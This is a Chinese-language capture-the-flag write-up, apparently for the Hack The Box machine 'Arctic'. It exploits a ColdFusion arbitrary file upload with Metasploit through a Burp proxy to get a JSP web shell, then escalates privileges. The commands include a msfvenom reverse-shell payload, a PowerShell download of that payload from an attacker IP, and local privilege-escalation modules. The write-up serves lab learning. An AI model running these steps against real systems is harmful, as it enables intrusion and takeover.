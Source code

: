 ```yaml
---
title: Arctic（ColdFusion任意文件上传）
categories:
- training
tags:
- training
---
```

## scan
```
Discovered open port 8500/tcp on 10.10.10.11                                   
Discovered open port 135/tcp on 10.10.10.11                                    
Discovered open port 49154/tcp on 10.10.10.11

135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
os : Microsoft Windows Vista           
```
## 尝试1: rpc漏洞检查
google搜索。。。
```
search ms03-026
use exploit/windows/dcerpc/ms03_026_dcom
show options
```
## 检查8500端口
```
telnet 10.10.10.11 8500

Trying 10.10.10.11...

Connected to 10.10.10.11.

Escape character is '^]'.

Connection closed by foreign host.
```
fmtp: **flight-message-transfer-protocol**，网上查了一下，没有见过这个协议，也不知道具体是干什么的。

## 思路
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/2.PNG)
没有任何操作思路。

根据wp学习一下。
ColdFusion应用程序由一组后缀名为CFM的文本文件构成，这些文件实现了该应用程序的功能...

```
searchsploit coldfusion
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit) 

msfconsole
search ColdFusion
use exploit/windows/http/coldfusion_fckeditor
```
burp设置代理，将访问127.0.0.1:8500的地址，发往10.10.10.11:8500。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/3.PNG)
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/4.PNG)                                                                                                                                                                                                                                                                                             
将msf的payload，用burp repeater截包。

```
set RHOST 127.0.0.1
set RPORT 8500
run
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/5.PNG)
观察右下角，响应用了17秒

## 获得一个shell
浏览器访问地址：`http://localhost:8500/userfiles/file/ECZLO.jsp`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/6.PNG) 获得了一个shell。

info enum:
```
》whoami
arctic\tolis
》systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          31/1/2019, 7:52:38 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
                           [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 241 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.209 MB
Virtual Memory: In Use:    839 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```
## 提权

本地执行：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST="10.10.14.7" LPORT=7767 -f exe -o m.exe
msf执行监听，本地ip，端口7767
```
shell执行：
```
cd C:\Users\tolis\Desktop
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.7/m.exe', 'm.exe')"
start p.exe 成功反弹metepreter

[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST xxxx
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26/7.PNG)

## 总结
学习了burp设置代理，达到访问127.0.0.1等于访问远程的效果。

msf设置RHOST为127.0.0.1，burp可以拦截msf发送的数据包